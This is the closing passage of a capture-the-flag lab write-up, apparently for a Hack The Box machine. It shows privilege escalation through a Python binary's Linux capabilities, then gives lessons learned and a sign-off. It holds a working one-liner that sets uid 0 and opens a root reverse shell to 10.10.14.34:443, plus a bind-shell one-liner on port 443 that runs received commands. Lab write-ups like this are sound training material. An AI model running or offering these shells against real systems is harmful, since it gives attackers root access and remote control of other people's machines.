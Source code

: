 We can also get a reverse root shell using the same method by setting our uid to the context of the root user and then initiating our reverse shell.

```shell
/usr/bin/python3.8 -c 'import os,pty,socket;os.setuid(0);s=socket.socket();s.connect(("10.10.14.34",443));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/bash")'
```

As you can see from the below example the shell on the right hand side is a root shell as we have passed the `os.setuid(0)` parameter, whereas if this is not entered (shell on left) we just get a reverse shell in the context of the original user who we launched the process, Nathan.
![](/ox-hugo/2025-05-22-201926_.png)


#### Extra Credit: Creating A Bind Shell On A Privileged Port: {#extra-credit-creating-a-bind-shell-on-a-privileged-port}

This isn't meant for privilege escalation, but I wanted to demonstrate what the `cap_net_bind_service` capability allows us to do. By running a bind shell that listens on port `443` (a privileged port). We can see that it's possible on this machine because the binary has the `cap_net_bind_service` capability, which permits binding to ports below `1024` without root privileges.

```shell
/usr/python3.8 -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",443));s1.listen(1);c,a=s1.accept();
while True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'

```

{{< figure src="/ox-hugo/2025-05-22-195659_.png" >}}


## Lessons Learned: {#lessons-learned}


### What did I learn? {#what-did-i-learn}

1.  This was just a nice enumeration box. I haven't done an IDOR vulnerability in sometime so it was nice to do again.
2.  This also helped me brush up on linux capabilities which I have not done in a while too.


### What silly mistakes did I make? {#what-silly-mistakes-did-i-make}

1.  I nearly wrote off the capture page as it did not work in burpsuite's browser, however luckily I re-tested in firefox.


## Sign off: {#sign-off}

Remember, folks as always: with great power comes great pwnage. Use this knowledge wisely, and always stay on the right side of the law!

Until next time, hack the planet!

&#x2013; Bloodstiller

&#x2013; Get in touch bloodstiller at bloodstiller dot com


